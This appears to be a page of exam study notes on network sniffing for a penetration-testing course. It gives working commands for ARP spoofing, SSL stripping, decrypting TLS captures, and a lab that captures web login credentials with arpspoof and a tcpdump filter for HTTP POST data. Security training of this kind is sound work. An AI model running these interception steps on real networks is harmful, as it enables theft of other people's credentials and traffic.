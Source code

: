 ### Advanced Sniffing

**Decrypt SSL Traffic (When Private Key Available)

```
wireshark -o "ssl.desegment_ssl_records: TRUE" -o "ssl.desegment_ssl_application_data: TRUE" -o "ssl.keys_list: 10.10.10.10,443,http,key.pem" capture.pcap
```

**Extract Files from PCAP

```
tshark -r capture.pcap --export-objects "http,./exported_files"
```

### Exam-Critical Reference Table

| Technique        | Tool      | Command Example   | Key Filters            | Notes | Extra |
|------------------|-----------|-------------------|------------------------|-------|-------|
| Passive Sniffing | tcpdump   | `-nn -vv -c 100`  | `port 80`              |       |       |
| ARP Spoofing     | ettercap  | `-T -q -M arp`    | `arp.duplicate-address`|       |       |
| SSL Stripping    | sslstrip  | `-a -f -k`        | `http` contains "login"|       |       |
| VoIP Capture     | wireshark | `udp.port == 5060`| `sip`                   |       | rtp   |

### Practical Exam Checklist

1. Capture FTP/HTTP credentials
2. Perform ARP poisoning attack
3. Decrypt SSL traffic (when possible)
4. Analyze captured VoIP calls
5. Document findings with screenshots

### Pro Tips:

- **Always check**: `arp -a` for MAC address conflicts
- **Critical ports**: 21 (FTP), 25 (SMTP), 80 (HTTP), 5060 (SIP)
- **Exam trick**: Use `-s0` in tcpdump for full packet capture
- **Must-know filters**: `tcp.analysis.flags`, `http.cookie`

### Real-World Exam Lab

**Task: Capture Web Login Credentials

```
1. arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

```
2. tcpdump -i eth0 -w login.pcap 'tcp port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)'
```

```
3. wireshark login.pcap
```
